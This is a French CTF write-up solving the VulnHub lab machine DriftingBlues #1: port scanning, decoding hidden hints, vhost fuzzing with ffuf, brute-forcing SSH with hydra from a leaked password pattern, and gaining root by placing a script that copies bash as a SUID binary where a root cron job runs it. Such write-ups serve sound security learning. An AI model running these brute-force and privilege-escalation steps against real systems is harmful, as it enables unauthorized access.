```yaml
---
title: Solution du CTF DriftingBlues #1 de VulnHub
tags: [CTF, VulnHub]
---
```


First of the name
-----------------

[DriftingBlues](https://www.vulnhub.com/entry/driftingblues-1,625/), ici le premier d'une grande lignée de VMs intentionnellement vulnérables dans l'unique but de s'amuser et apprendre, a été conçu par [tasiyanci](https://twitter.com/tasiyanci).  

```plain
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   2048 ca:e6:d1:1f:27:f2:62:98:ef:bf:e4:38:b5:f1:67:77 (RSA) 
|   256 a8:58:99:99:f6:81:c4:c2:b4:da:44:da:9b:f3:b8:9b (ECDSA) 
|_  256 39:5b:55:2a:79:ed:c3:bf:f5:16:fd:bd:61:29:2a:b7 (ED25519) 
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 
|_http-title: Drifting Blues Tech 
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Sur le site web on peut trouver différents noms et adresses emails : *Charles Brown*, *sheryl@driftingblues.box*, *eric@driftingblues.box*.  

On trouve aussi dans la page le commentaire HTML encodé en base64 :  

```html
<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->
```

Ce qui se décode en : */noteforkingfish.txt*  

Okaaaaaaaayyyyyyyy
------------------

Le path cité nous amène sur une page remplie de *Ook!*, *Ook?* et autres *Ook.* Connaissant déjà quelques langages de programmation ésotériques j'ai tout de suite saisi la référence mais une recherche google aurait sans doute amené les plus dubitatifs sur une explication.  

Le site *dcode.fr* dispose [d'un interpréteur](https://www.dcode.fr/langage-ook) et l'exécution du script produit l'affichage suivant :  

> my man, i know you are new but you should know how to use host file to reach our secret location. -eric

Voyons un peu les virtual hosts qui retournent une réponse différente de celle par défaut (à savoir ici une taille différente de 7710 octets) :  

```plain
$ ffuf -w /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.6/ -H "Host: FUZZ.driftingblues.box" -fs 7710 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : GET 
 :: URL              : http://192.168.56.6/ 
 :: Wordlist         : FUZZ: /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt 
 :: Header           : Host: FUZZ.driftingblues.box 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 7710 
________________________________________________ 

test                    [Status: 200, Size: 24, Words: 1, Lines: 6] 
:: Progress: [50000/50000] :: Job [1/1] :: 2862 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

Une fois sur le site on obtient juste le message *work in progress -eric*.  

Après beaucoup d'énumération je trouve sur ce vhost un fichier... *robots.txt*. Comme quoi un simple appel à Nuclei m'aurait fait gagné du temps, à se rappeller lors de la prochaine découverte de vhost.  

Le plus intéressant est une URL interdite qui mentionne un accès SSH :  

```plain
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

Le message :  

```plain
we can use ssh password in case of emergency. it was "1mw4ckyyucky".

sheryl once told me that she added a number to the end of the password.

-db
```

C'est toujours un plaisir de résoudre un problème avec une ligne de Python :  

```plain
$ python3 -c "[print(f'1mw4ckyyucky{i}') for i in range(10)]" > pass.txt
$ hydra -L users.txt -P pass.txt ssh://192.168.56.6
--- snip ---
[22][ssh] host: 192.168.56.6   login: eric   password: 1mw4ckyyucky6
```

Let's root
----------

Ce compte dispose du premier flag mais n'a aucune règle sudo associée. L'outil d'énumération de failles et de mauvaises configurations locales LinPEAS ne retourne rien qui vaille...  

En revanche on peut monitorer les process avec [pspy](https://github.com/DominicBreuker/pspy) et là on a quelque chose de plus intéressant :  

```plain
2022/01/19 01:25:01 CMD: UID=0    PID=20942  | /usr/bin/zip -r -0 /tmp/backup.zip /var/www/  
2022/01/19 01:25:01 CMD: UID=0    PID=20941  | /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20940  | /bin/sh -c /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20939  | /usr/sbin/CRON -f  
2022/01/19 01:25:01 CMD: UID=0    PID=20944  | sudo /tmp/emergency
```

Le dernier script mentionné est manquant :  

```plain
eric@driftingblues:~$ file /tmp/emergency 
/tmp/emergency: cannot open `/tmp/emergency' (No such file or directory)
```

Et comme il est dans */tmp* on peut le créer pour y placer par exemple le contenu suivant :  

```bash
#!/bin/bash 
cp /bin/bash /tmp/g0tr00t 
chmod 4755 /tmp/g0tr00t
```

On attend que la tâche CRON s'exécute et on a notre shell :  

```plain
eric@driftingblues:/tmp$ ./g0tr00t -p 
g0tr00t-4.3# id 
uid=1001(eric) gid=1001(eric) euid=0(root) groups=1001(eric) 
g0tr00t-4.3# cd /root 
g0tr00t-4.3# ls 
root.txt 
g0tr00t-4.3# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations! 
thank you for playing
```

Un CTF du type jeu de pistes mais suffisamment logique pour être agréable.

*Published January 19 2022 at 20:10*
